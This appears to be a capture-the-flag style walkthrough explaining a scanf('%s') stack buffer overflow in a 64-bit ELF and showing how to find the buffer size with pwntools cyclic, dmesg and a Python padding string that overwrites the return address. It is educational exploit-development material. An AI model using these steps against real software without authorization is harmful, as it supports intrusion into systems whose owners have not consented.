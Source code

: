# Find the buffersize
## Vulnerability
You can skip ahead to "Installing pwntools" if you found the vulnerability yourself. 

The vulnerable function which is exploitable is: ```scanf()```. The function has a predefined size buffer and using ```%s``` to read the input doesn't check the length of the inputted string. If the user enters a string longer which would exceed the buffer size it would overflow and allows to reach addresses which weren't meant to be reached. 

## Installing pwntools
Follow the instruction on in the [documentation](https://docs.pwntools.com/en/stable/install.html) of pwntools to install it on your VM. To use the Command-Line Tools of pwntools you have to add it to the PATH which is done by opening ```.zshrc``` (file from which interactive shells read commands) in /\<user> and add "export PATH="/home/\<user>/.local/bin:$PATH" at the end. Restart your terminal. Then check if your Command-Line Tools work by entering ```pwn``` in your terminal. 

## Preparation
First we inspect the file with:
```sh
file <filename>
```
![File Command](../images/file-cmd.png)

This command shows what type of ELF it is (in this case a 64 Bit binary) and which interpreter it needs to run (musl). This can be installed by entering:
```sh
sudo apt-get install musl
```
Now youre ready to exploit!

## Find the buffersize
Finding the buffersize can be done by bruteforcing it with string which is increased each iteration. Pwntools has some tools to make it more interesting. Check out the [documentation](https://docs.pwntools.com/en/stable/commandline.html) for an overview of Command-Line Tools.

Start by generating a string using 
```sh
pwn cyclic 30
``` 
This returns you a the first 30 characters of a predefined string. This is useful for finding out the buffer size since a certain response can be looked up.

echo the string into the binary with 
```sh
echo "<cyclic_string>" | ./<file_name>
```

You will get a Segmentation Fault which you can check with 
```sh
sudo dmesg | tail
``` 
(Prints the tail of the message buffer of the kernel). You will see a message similar to "segfault at --XXXX". 

Cyclic can only interpret 32 Bit input which is why you take the last 4 Bytes shown. 

Enter 
```sh
pwn cyclic -l 0x<XXXX>
``` 
into your terminal to get the buffer size (should be 24). This command looks up the value you gave it in the predefined string. 

To confirm the size you can use python:
```sh
python -c "print('A'*<buffersize>+'CAFEFE')" | ./server
``` 
Reading the kernel messages again shows you that the program tried to reach the address "FEFECA", confirming the buffersize.








